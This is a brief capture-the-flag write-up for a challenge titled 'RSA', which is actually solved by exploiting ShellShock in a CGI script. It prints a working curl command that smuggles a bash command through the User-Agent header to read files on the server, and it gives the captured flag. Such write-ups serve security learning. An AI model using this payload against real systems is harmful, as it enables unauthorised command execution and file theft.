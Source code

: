 # RSA
**Category:** Medium
**Points:** 400
**Solves:** 23
**Description:**

>We have been given access to a script snippet that is vurlnerable. Can you exploit it and find the flag?
>
>Flag is in format: CT##-####-#####-####
>
>You can access the site from [here](http://ctfp.ee:11111/unsafe.cgi)

# Write-up
by BubblyPen

In this challange you have to get the flag via ShellShock.

Searching for *bash cgi vulns*, you can find a lot of ShellShock exploits. I found [this](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock) link very useful.

By using this 
```bash
curl -H "User-agent: () { :;}; echo; /bin/cat ../j*" http://ctfp.ee:11111/unsafe.cgi
```

***Flag:*** CT20-Sh3l-lSh0c-k3d!